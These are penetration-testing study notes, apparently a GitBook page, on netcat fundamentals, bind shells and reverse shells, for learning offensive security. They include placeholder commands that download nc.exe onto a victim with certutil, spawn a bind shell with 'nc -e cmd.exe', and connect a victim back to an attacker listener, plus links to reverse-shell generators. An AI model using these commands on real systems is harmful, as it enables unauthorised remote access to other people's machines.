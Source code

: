 ```yaml
---
description: Bind and Reverse Shells
---
```


# 5 - Shells

## <mark style="color:red;">Netcat Fundamentals</mark>

* Netcat (Aka TCP/IP Swiss Army Knife) is a networking utility used to read and write data to network connections using TCP or UDP.
* Netcat is available for both \*NIX and Windows operating systems, consequently making it extremely useful for cross-platform engagements.
* Netcat utilizes a client-server communication architecture with two modes:
  * **Client mode** - Netcat can be used in client mode to connect to any TCP/UDP port as well as a Netcat listener (server).
  * **Server mode** - Netcat can be used to listen for connections from clients on a specific port.
* Netcat can be used by penetration testers to perform the following functionality:
  * Banner Grabbing
  * Port Scanning
  * Transferring Files
  * Bind/Reverse Shells

### **Practical Demonstration**

```bash
nc -h # help menu.
nc -nv <targetIP> <targetPort> #Connect to a port with NoDNS and Verbose flags
nc <...> -u #Connect via a UDP port (TCP default)
/usr/share/windows-binaries/nc.exe #Location of the nc windows binary

#Transfer the nc.exe windows binary from attacker to victim system:
#Setup a webserver (python) in the nc binary folder on the attacker side
cmd > certutil -urlcache -f http://<localIP>/nc.exe <binaryName> #Download the nc.exe binary from thea attacker system

nc -nvlp <port> #Listen for any connection on port 1234
cmd > nc.exe -nv <localIP> <port> #Connect to the nc listener

#How to transfer files using netcat
#The file receiver need to be listening (server) and the file sender needs to connect (client)
cmd > nc.exe -nvlp <port> > <fileName> #Redirect everything received from a netcat client to a file
nc -nv <targetIP> <port> < <fileName> #Send the file to the netcat listener
```





## <mark style="color:red;">Bind Shells</mark>

**Bind Shells**

▪ A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system.

▪ A Netcat listener can be setup to execute a specific executable like cmd.exe or /bin/bash when a client connects to the listener.

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

**Practical Demonstration**

```
cmd > nc -lvnp -e cmd.exe #Setup a listener that will grant access to cmd.exe to the client system
nc -nv <targetIP> <port> #Connect to the victim system via a bind shell
```





## <mark style="color:red;">Reverse Shells</mark>

* A reverse shell is a type of remote shell where the target connects directly to a listener on the attacker's system, consequently allowing for execution of commands on the target system.

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

**Practical Demonstration**

```
nc -nlvp 1234 #Setup a listener on the attacker system
cmd > nc.exe -nv <localIP> <port> #Connect to the attacker system using the vicitm system (reverse shell)
```

## Reverse Shell Cheatsheet

**Practical Demonstration**

```
#List of useful resources related to reverse shells:

#https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md Reverse Shell Cheatsheet
#https://www.revshells.com/ Reverse Shell Generator
```







